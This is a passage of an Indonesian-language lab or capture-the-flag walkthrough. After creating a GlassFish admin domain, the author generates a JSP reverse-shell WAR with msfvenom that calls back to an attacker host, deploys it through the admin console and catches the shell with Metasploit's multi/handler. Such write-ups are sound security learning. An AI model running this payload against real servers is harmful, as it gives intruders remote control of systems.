 ```sh
Distinguished Name of the self-signed X.509 Server Certificate is:
[CN=debian,OU=GlassFish,O=Eclipse.org Foundation Inc,L=Ottawa,ST=Ontario,C=CA]
Distinguished Name of the self-signed X.509 Server Certificate is:
[CN=debian-instance,OU=GlassFish,O=Eclipse.org Foundation Inc,L=Ottawa,ST=Ontario,C=CA]
Domain sharpicx created.
Domain sharpicx admin port is 4848.
Domain sharpicx admin user is "sharpicx".
Command create-domain executed successfully.
discover@debian:/opt/glassfish6/glassfish/domains$ sudo /opt/glassfish6/bin/asadmin start-domain sharpicx
discover@debian:/opt/glassfish6/glassfish/domains$ sudo /opt/glassfish6/bin/asadmin enable-secure-admin
Enter admin user name>  sharpicx
Enter admin password for user "sharpicx"> 
You must restart all running servers for the change in secure admin to take effect.
Command enable-secure-admin executed successfully.

```
lalu login pada port **4848** dengan *credential* yang baru saja dibuat, **sharpicx:sharpicx** kemudian saya mencari laman untuk upload *reverse shell* yang bisa dieksekusi pada laman ini, karena based on *Java* maka *reverse shell* yang dipakai **JSP** atau **Java Server Pages** atau bisa juga dengan *WAR extension* karena termasuk *web component* pada java web server. 

dengan begitu saya membuat *revshell* menggunakan **msfvenom**.
```sh
╭─ via [machines/discover]
╰─ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=12345 -f war > shell.war  
Payload size: 1100 bytes
Final size of war file: 1100 bytes

```
lalu setelah itu, saya mencari-cari laman mana yang bisa digunakan untuk upload *revshell*. dan ketemulah bagian *Applications* lalu saya klik *Deploy* dan disana tidak dibatasi format apa yang harus diakses, jadi saya langsung pasang shell dan upload.

![adasdas](https://i.ibb.co/5j1wDV1/image.png)

lalu balik lagi pada tab *Applications*, saya klik label *launch* lalu muncullah tampilan seperti ini.

![asdasdassda](https://i.ibb.co/DrKSdTC/image.png)

lalu saya nyalakan **msfconsole** dan menggunakan *multi/handler* untuk merespon koneksi TCP dari reverse shellnya. setelah itu saya klik kedua link tersebut dan BOOM!

![imagesss](https://i.ibb.co/BZ7F6jm/image.png)


## References
* <https://www.ibm.com/docs/en/app-connect/11.0.0?topic=corba-naming-service>
* <https://techcolleague.com/what-is-devshm-and-what-is-it-used-for/>
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://docs.oracle.com/cd/E26576_01/doc.312/e24938/preface.htm#GSRFM442>
* <https://glassfish.org/docs/latest/reference-manual/asadmin.html>
* <https://github.com/naivenom/exploiting/blob/master/angstromctf2016/buffer_overflow2.py>
* <https://0xdf.gitlab.io/2022/01/08/htb-previse.html>
